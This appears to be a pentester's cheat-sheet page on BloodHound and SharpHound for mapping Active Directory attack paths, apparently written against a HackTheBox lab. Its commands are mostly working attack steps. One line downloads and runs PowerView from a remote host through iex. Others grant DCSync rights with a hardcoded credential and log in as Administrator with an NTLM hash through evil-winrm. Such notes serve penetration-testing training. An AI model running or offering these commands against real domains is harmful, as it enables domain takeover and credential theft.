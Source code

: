 # BloodHound

## Brief

BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attacks can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify.

{% embed url="https://bloodhound.readthedocs.io/en/latest/index.html" %}

## Usage

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux

```bash
neo4j console
# creds = neo4j : neo4j
# forgotten password
locate neo4j | grep auth

bloodhound
```

Now bloodhound needs data, and it does so by using an ingestor called SharpHound, you should download, move and execute that script on your domain user that you compromised by typing :

```powershell
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain $TARGETDOMAIN -ZipFileName bloodhound.zip
```

Once you finish that, copy the zip file to your system, and feed it to bloodhound through drag and drop or import data functionality.

***

## WriteDACL

```bash
iex(new-object net.webclient).downloadstring('http://10.10.14.4:9090/PowerView.ps1')

$pass = convertto-securestring 'abc123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\john', $pass)

Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync

Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

